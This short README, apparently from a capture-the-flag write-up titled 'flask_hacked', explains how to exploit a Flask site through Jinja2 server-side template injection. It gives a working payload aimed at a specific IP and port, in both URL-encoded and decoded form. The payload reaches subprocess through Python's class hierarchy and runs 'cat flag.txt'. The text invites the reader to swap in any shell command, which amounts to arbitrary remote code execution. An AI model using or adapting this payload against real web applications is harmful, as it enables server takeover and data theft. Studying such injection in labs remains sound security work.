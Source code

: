# flask_hacked
# Hi i told you abot how to hack flask site
Already command:   `http://167.172.55.94:31138/%7B%7B%22%22.__class__.__mro__[1].__subclasses__()[414]%20(%22cat%20flag.txt%22,shell=True,stdout=-1).communicate()%7D%7D`
The first part is write URL `167.172.55.94:31138`
Second part is write exploit and start bash command
`%7B%7B%22%22.__class__.__mro__[1].__subclasses__()[414]%20(%22cat%20flag.txt%22,shell=True,stdout=-1).communicate()%7D%7D` URL encode
`{{"".__class__.__mro__[1].__subclasses__()[414] ("cat flag.txt",shell=True,stdout=-1).communicate()}}` ASCII 
`"cat flag.txt"` is a bash command. You can write your command.

Solve this task!
